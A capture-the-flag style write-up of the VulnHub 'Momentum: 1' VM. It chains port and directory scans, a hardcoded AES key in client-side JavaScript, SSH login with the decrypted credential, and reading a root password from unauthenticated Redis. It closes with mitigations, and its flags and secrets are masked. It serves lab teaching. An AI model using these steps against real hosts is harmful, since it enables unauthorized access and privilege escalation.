









### Momentum: 1 — VulnHub Walkthrough
<p align="center">
<b>Difficulty:</b> Medium | <b>Platform:</b> VulnHub | <b>Attack Vector:</b> Web → Client-Side Crypto → Credential Reuse → Redis Abuse | <b>Author:</b> null0xMAAZ
</p>


### Disclaimer

This walkthrough is intended **strictly for educational purposes** and for use in **authorized lab environments only**. Do **not** attempt these techniques on systems you do not own or have explicit permission to test.


### Lab Setup

* **Attacker Machine:** Kali Linux / Ubuntu (Host)
* **Target Machine:** Momentum: 1 (VulnHub VM)
* **Virtualization:** VirtualBox
* **Network Mode:** Host-Only Adapter


### Network Discovery

The first step was identifying the target machine on the local network.

```bash
sudo nmap -sn 192.168.56.0/24
```


This scan revealed the target VM at:

```bash
192.168.56.102
```


### Service Enumeration

A full TCP port scan with service and script detection was performed.

```bash
# Nmap 7.80 scan initiated Fri Dec 26 21:23:45 2025 as: nmap -sC -sV -p- -vv -oA nmap/initial 192.168.56.102
Nmap scan report for 192.168.56.102
Host is up, received arp-response (0.000037s latency).
Scanned at 2025-12-26 21:23:45 GMT for 6s
Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5c:8e:2c:cc:c1:b0:3e:7c:0e:22:34:d8:60:31:4e:62 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgY+ZHfSI8n4CS/wRyjcub7cHXCF/Lg9B1V5/ON1L6cGSGi/d2UZI7DBzQ+HFfbDAHaXC+LCAd1YP+DUMBZTFeXq92YvaBgdMKqwSPUV3xjwdjZ4CxtFFlBOmm+7FV3RiJTqMqyuHrMtm8HyCy6qCGspg7N68GrtqKjx4hpVV1g83OejNgndSX8lFFicAUgyyITwTFNmORt1Q1gRsCrlyIsgBmKFA5ILdc368qfQ1wkl5UuQIywCR5tBocCr9wjz/Kmnw2vL9nVkz7Rpgoy+PpauO79oT3KNJCY14Na3HlIMkfHFDgAah2faQ+KfZ6iwHEBhUCc/Ntf73/hvNLhvMJ
|   256 81:fd:c6:4c:5a:50:0a:27:ea:83:38:64:b9:8b:bd:c1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAvETSAbSxSsiZsuMSlYBMPl4mnydOMukiWu7qTYt5jU7pkBdEyF1bT2MUBPAHf2Yr7LKAnmTUwmG8d3fPwK0A0=
|   256 c1:8f:87:c1:52:09:27:60:5f:2e:2d:e0:08:03:72:c8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDyxkKiZS8Udvbmkf2wuWsUyotMD+/KKuHKbFTKRcttA
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Momentum | Index 
MAC Address: 08:00:27:C3:67:A9 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec 26 21:23:51 2025 -- 1 IP address (1 host up) scanned in 6.98 seconds
```



### Web Enumeration

#### Directory Bruteforcing

Using Gobuster (v2 syntax):

```bash
gobuster -m dir \
  -u http://192.168.56.102 \
  -w /snap/seclists/current/Discovery/Web-Content/common.txt \
  -x php,txt,html,log \
  -o gobuster-medium.txt
```


```bash
/.hta (Status: 403)
/.hta.php (Status: 403)
/.hta.txt (Status: 403)
/.hta.html (Status: 403)
/.hta.log (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.log (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.log (Status: 403)
/css (Status: 301)
/img (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
/js (Status: 301)
/manual (Status: 301)
/server-status (Status: 403)
```

#### Notable Results

```text
/js           (301)
/manual       (301)
/index.html   (200)
```

The `/js` directory immediately stood out as a **high-value target**.


### Client-Side JavaScript Analysis

Browsing to:

```text
http://192.168.56.102/js/
```


Revealed the file:

```text
main.js
```


#### Sensitive Code Found

```javascript
/*
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
*/
```

This immediately indicated:

* **AES encryption**
* **Hardcoded passphrase**
* Client-side crypto misuse


### Decrypting the Encrypted Value

The encrypted blob was extracted from the JavaScript file and decrypted locally using Node.js.

#### Setup

```bash
~$ cat node.sh
# Download and install nvm:
curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.40.3/install.sh | bash

# in lieu of restarting the shell
\. "$HOME/.nvm/nvm.sh"

# Download and install Node.js:
nvm install 24

# Verify the Node.js version:
node -v # Should print "v24.12.0".

# Verify npm version:
npm -v # Should print "11.6.2".

~$ bash node.sh 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 16631  100 16631    0     0  75117      0 --:--:-- --:--:-- --:--:-- 75253
=> Downloading nvm from git to '/root/.nvm'
=> Cloning into '/root/.nvm'...
remote: Enumerating objects: 384, done.
remote: Counting objects: 100% (384/384), done.
remote: Compressing objects: 100% (328/328), done.
remote: Total 384 (delta 42), reused 181 (delta 28), pack-reused 0 (from 0)
Receiving objects: 100% (384/384), 392.50 KiB | 4.41 MiB/s, done.
Resolving deltas: 100% (42/42), done.
* (HEAD detached at FETCH_HEAD)
  master
=> Compressing and cleaning up git repository

=> Appending nvm source string to /root/.bashrc
=> Appending bash_completion source string to /root/.bashrc
=> You currently have modules installed globally with `npm`. These will no
=> longer be linked to the active version of Node when you install a new node
=> with `nvm`; and they may (depending on how you construct your `$PATH`)
=> override the binaries of modules installed with `nvm`:

/usr/local/lib
├── corepack@0.17.2
├── gtop@1.1.5
├── n@9.1.0
=> If you wish to uninstall them at a later point (or re-install them under your
=> `nvm` node installs), you can remove them from the system Node as follows:

     $ nvm use system
     $ npm uninstall -g a_module

=> Close and reopen your terminal to start using nvm or run the following to use it now:

export NVM_DIR="$HOME/.nvm"
[ -s "$NVM_DIR/nvm.sh" ] && \. "$NVM_DIR/nvm.sh"  # This loads nvm
[ -s "$NVM_DIR/bash_completion" ] && \. "$NVM_DIR/bash_completion"  # This loads nvm bash_completion
Downloading and installing node v24.12.0...
Downloading https://nodejs.org/dist/v24.12.0/node-v24.12.0-linux-x64.tar.xz...
######################################################################### 100.0%
Computing checksum with sha256sum
Checksums matched!
Now using node v24.12.0 (npm v11.6.2)
Creating default alias: default -> 24 (-> v24.12.0)
v24.12.0
11.6.2
~$ node -v 
v20.2.0
~$ npm -v
9.6.6
~$ npm init -y
Wrote to /home/'''''/package.json:

{
  "name": "'''''",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "keywords": [],
  "author": "",
  "license": "ISC"
}


~$ npm install crypto-js

added 1 package, and audited 2 packages in 640ms

found 0 vulnerabilities
```

#### Decryption Script

```javascript
const CryptoJS = require("crypto-js");

const encrypted = "$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$";
const key = "SecretPassphraseMomentum";

const decrypted = CryptoJS.AES.decrypt(encrypted, key);

console.log("UTF8:", decrypted.toString(CryptoJS.enc.Utf8));
console.log("HEX :", CryptoJS.enc.Hex.stringify(decrypted));
console.log("B64 :", CryptoJS.enc.Base64.stringify(decrypted));
```

#### Output



### Initial Foothold (SSH)

The decrypted value was tested as credentials.

```bash
ssh auxerre@192.168.56.102
```



### User Flag

```bash
cat user.txt
```

```text
[ Momentum - User Owned ]
flag : $$$$$$$$$$$$$$$$$$$$$$$$$$$
```

### Privilege Escalation

#### Standard Enumeration (Failed)

I tried several methods on this step. I looked for SUIDs, Capabilities, sudo privilegies, kernel exploits and tried to use linpeas but all of that were fruitless. I decided to look for unusual processes using the command:

This indicated a **logic-based or service-based escalation path**.


### Process Enumeration

```bash
ps aux
```



#### Suspicious Process Identified

```text
redis   409  ...  /usr/bin/redis-server 127.0.0.1:6379
```

Redis was:

* Running locally
* Unauthenticated
* Accessible to the compromised user

### Redis Abuse

#### Access Redis

```bash
redis-cli
```


#### Enumerate Keys

```redis
127.0.0.1:6379> KEYS *
1) "rootpass"
127.0.0.1:6379> GET rootpass
"$$$$$$$$$$$$$$$$"
127.0.0.1:6379> 
127.0.0.1:6379> 
127.0.0.1:6379> 
127.0.0.1:6379> exit

```

### Root Access

```bash
auxerre@Momentum:~$ su root
Password: 
root@Momentum:/home/auxerre# 
root@Momentum:/home/auxerre# 
root@Momentum:/home/auxerre# 
root@Momentum:/home/auxerre# 
root@Momentum:/home/auxerre# whoami
root
root@Momentum:/home/auxerre# 
root@Momentum:/home/auxerre# id
uid=0(root) gid=0(root) groups=0(root)
root@Momentum:/home/auxerre# 
root@Momentum:/home/auxerre# 
root@Momentum:/home/auxerre# ls
user.txt
root@Momentum:/home/auxerre# cat user.txt 
[ Momentum - User Owned ]
---------------------------------------
flag : $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$
---------------------------------------
root@Momentum:/home/auxerre# 
root@Momentum:/home/auxerre# 
root@Momentum:/home/auxerre# 
root@Momentum:/home/auxerre# 

```


### Final Notes

#### Attack Chain Summary

1. Network discovery
2. Web enumeration
3. Client-side JavaScript analysis
4. AES decryption with hardcoded key
5. SSH access as user
6. Redis service abuse
7. Root credential disclosure
8. Full privilege escalation


### Mitigations

* Never store secrets in client-side JavaScript
* Avoid hardcoded encryption keys
* Protect Redis with authentication
* Never store credentials in Redis
* Apply principle of least privilege


### Key Takeaway

> *"Castles fall from inside."*

This machine demonstrates how **small client-side mistakes** and **poor internal service security** can chain together into a **full system compromise**.


### Credits

* VulnHub
* Momentum VM Author
* CryptoJS


**Pwned by:** `null0xMAAZ`
